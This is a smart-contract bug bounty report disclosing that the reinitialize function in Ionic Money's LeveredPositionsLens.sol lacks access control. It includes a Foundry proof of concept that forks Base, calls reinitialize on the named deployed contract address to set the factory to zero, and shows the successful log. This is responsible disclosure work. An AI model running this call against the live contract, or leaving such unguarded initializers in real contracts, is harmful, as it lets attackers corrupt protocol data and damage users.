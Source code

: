 
# The reinitialize function in LeveredPositionsLens.sol lack access control protection can allow attackers to set the factory to arbitrary malicious address to cause damage to the Ionic Money protocol

Submitted on Mon Jun 17 2024 17:27:45 GMT-0400 (Atlantic Standard Time) by @perseverance for [IOP | Ionic](https://immunefi.com/bounty/ionic-iop/)

Report ID: #32301

Report type: Smart Contract

Target: https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPositionsLens.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
# Description

## Brief/Intro

The contracts\contracts\ionic\levered\LeveredPositionsLens.sol contract is intended to help with off-chain or web interface. In this contract, there are 2 functions to set the factory address. 

https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPositionsLens.sol#L15-L21
```solidity

  function initialize(ILeveredPositionFactory _factory) external initializer {
    factory = _factory;
  }

  function reinitialize(ILeveredPositionFactory _factory) external reinitializer(2) {
    factory = _factory;
  }

```

https://github.com/OpenZeppelin/openzeppelin-contracts-upgradeable/blob/master/contracts/proxy/utils/Initializable.sol#L152-L174

```solidity
 modifier reinitializer(uint64 version) {
        // solhint-disable-next-line var-name-mixedcase
        InitializableStorage storage $ = _getInitializableStorage();

        if ($._initializing || $._initialized >= version) {
            revert InvalidInitialization();
        }
        $._initialized = version;
        $._initializing = true;
        _;
        $._initializing = false;
        emit Initialized(version);
    }

    /**
     * @dev Modifier to protect an initialization function so that it can only be invoked by functions with the
     * {initializer} and {reinitializer} modifiers, directly or indirectly.
     */
    modifier onlyInitializing() {
        _checkInitializing();
        _;
    }

```


## The vulnerability 
### Vulnerability Details


So the factory address is really important, because all the data is taken from that contract. 
So after creating the LeveredPositionsLens, the creator can call initialize to set the factory address. This can be done in an automation script. There is the risk that initialize transaction can be front-run if this transaction is executed on Ethereum or Layer1 with public mempool. 
But with the contracts will be deployed on Mode or Base that is Layer2 without public mempool, then it can not be front-run. So it is acceptable. 

But the reinitialize function is intended to set the factory to a new address. So this reinitialize transaction is intended to execute later when the factory needed to be updated. 
Because there is no need to reinitialize right after construction/deployment of the contract as the initialize transaction was executed to update the factory to a correct address. 

With this use case in mind, there is no access control protection for this reinitialize. So anyone or any attacker can call reinitialize to set the factory to an arbitrary address or zero. 

Since the data fetched from this contract can serve the website or automation system on backend, so by altering the factory address to a malicious address with fake data can create risk and damage for users and the Ionic Money protocol. 


# Impacts
# About the severity assessment

Attacker can call reinitialize to set the factory to an arbitrary malicious factory or zero. Since the data fetched from this contract can serve the website or automation system on backend, so by altering the factory address to a malicious address with fake data can create risk and damage for users and the Ionic Money protocol. 

After the attack, the Ionic Protocol cannot use the deployed LeveredPositionLens contract anymore. Should deploy another contract. 
The damage to the protocol also depends on where the lens will be used. 

So to use the reinitialize later should have some kind of access control.  Or just create the setFactory function with onlyAdmin role to update the factory when needed.   

Severity: Medium

Impact category: Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
        
## Proof of concept

#  Proof of concept

Step 1: Attacker can deploy or create a fake malicous factory 

Step 2: Call the reinitialize function to update the factory to the fake factory. 

In the POC, I found the deployed on Base network as the attack contract victim.
The address is taken from https://github.com/ionicprotocol/monorepo/blob/development/packages/chains/deployments/base.json 


POC code:
```solidity
interface ILeveredPositionLens {
  function reinitialize(ILeveredPositionFactory _factory) external;  
  function factory() external view returns (ILeveredPositionFactory); 
}

contract TestLeveredPositionLensBase is Test {


  function setUp() public {

      vm.createSelectFork("https://rpc.ankr.com/base", 15926702); //Jun-17-2024 04:45:51 PM +UTC 

  }

  //forge test --match-test testLeveredPositionLens --match-contract TestLeveredPositionLensBase -vvvvv | format > testLeveredPositionLens_240617_2210.log
  function testLeveredPositionLens() public {

    address LeveredPositionsLens_ = 0x5d74800e977bFc8E14Eca28C9405BacbD091738E; // address found in https://github.com/ionicprotocol/monorepo/blob/development/packages/chains/deployments/base.json


    ILeveredPositionLens lens = ILeveredPositionLens(LeveredPositionsLens_);
    console.log("Before the attack, the address of the factory: ",address(lens.factory()));
    lens.reinitialize(ILeveredPositionFactory(address(0)));
    console.log("After the attack, the address of the factory: ",address(lens.factory()));

  }

} 
```
In this POC, I demonstrated to set the factory to zero address successfully. 

Test log of the POC
```
[PASS] testLeveredPositionLens() (gas: 24471)
Logs:
  Before the attack, the address of the factory:  0x4e20eB2AF6bE30660323cB25204e071116737FEA
  After the attack, the address of the factory:  0x0000000000000000000000000000000000000000
```



Full POC: 
https://gist.github.com/Perseverancesuccess2021/f73940d6d5ac85272fba0686c33e5054

Get full test case and replace the file: contracts\contracts\test\LeveredPositionTest.t.sol 
Run command 
```
forge test --match-test testLeveredPositionLens --match-contract TestLeveredPositionLensBase -vvvvv
```

Full Log file: 

https://gist.github.com/Perseverancesuccess2021/f73940d6d5ac85272fba0686c33e5054